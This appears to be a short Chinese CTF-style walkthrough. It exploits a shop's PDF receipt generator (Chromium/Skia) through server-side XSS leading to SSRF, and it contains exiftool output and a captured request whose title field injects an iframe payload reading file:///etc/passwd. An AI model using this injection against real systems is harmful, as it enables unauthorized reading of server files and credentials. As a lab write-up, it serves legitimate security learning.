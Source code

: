 这里是一个添加商品并且购买的页面，购买完成会根据你购买的物品自动生成一个PDF收据。

下载下来用exiftool分析一下：

```shell
┌──(root㉿kali)-[/usr/share/wordlists/wfuzz/webservices]
└─# exiftool /root/桌面/document.pdf
ExifTool Version Number         : 12.57
File Name                       : document.pdf
Directory                       : /root/桌面
File Size                       : 44 kB
File Modification Date/Time     : 2023:06:08 19:32:14+08:00
File Access Date/Time           : 2023:06:08 19:32:33+08:00
File Inode Change Date/Time     : 2023:06:08 19:32:33+08:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Tagged PDF                      : Yes
Creator                         : Chromium
Producer                        : Skia/PDF m108
Create Date                     : 2023:06:08 10:55:47+00:00
Modify Date                     : 2023:06:08 10:55:47+00:00
```

找一下Skia CVE/ skia/pdf exploit

参考：https://techkranti.com/ssrf-aws-metadata-leakage/ & https://www.triskelelabs.com/blog/extracting-your-aws-access-keys-through-a-pdf-file

是一个**sXSS->SSRF**的过程

抓包修改data：

```shell
{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<iframe src='file:///etc/passwd' width='800' height='1050'></iframe>","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```

重点在这，titile对应的值改为：

```html
<iframe src='file:///etc/passwd' width='800' height='1050'></iframe>
```
